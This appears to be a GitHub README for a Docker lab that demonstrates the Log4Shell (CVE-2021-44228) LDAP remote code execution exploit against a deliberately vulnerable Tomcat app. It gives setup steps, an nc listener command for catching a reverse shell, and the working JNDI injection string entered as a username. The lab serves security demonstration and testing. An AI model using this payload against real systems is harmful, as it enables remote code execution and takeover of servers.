 # log4j-poc

## An LDAP RCE exploit for CVE-2021-44228 Log4Shell

### Description

The demo Tomcat 8 server on port 8080 has a vulnerable app (log4shell) deployed on it and the server also vulnerable via user-agent attacks.

The remote exploit app in this demo is based on that found at <https://github.com/kozmer/log4j-shell-poc>

This demo tomcat server (Tomcat 8.5.3, Java 1.8.0u51) has been reconfigued to use Log4J2 for logging - a non-standard configuration.

The RMI exploit against the Tomcat 9 / Java 11 server is described here: <https://www.veracode.com/blog/research/exploiting-jndi-injections-java> (Jan 3, 2019) by Michael Stepankin

The detection script will check for user-agent vulnerablities and is from here: <https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6>

### Prerequisites

This code requires Docker and Docker Compose

### Installation

- edit docker-compose.yml file:
  - #LISTENER_ADDR is the address of the 'nc' listener e.g. the docker host (local IP of the docker hostmachine)
- build docker containers:

```
docker-compose build
```

### Run Web App Attack Demo

- Setup your netcat listener in the first terminal

```
    nc -lv 10.10.10.31 9001
```

- Start the docker containers in a second terminal

```
   docker-compose up
```

- Navigate to <http://10.10.10.31:8080/log4shell>
- Login as "regular" user:
  - Enter the username: `admin`
  - Enter the password: `password`
  - Press the "login" button
- try out log4j vulnerability
  - Return to login at <http://10.10.10.31:8080/log4shell>
  - Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
  - Select the "login" button
  - Check for connection on your `nc` listener
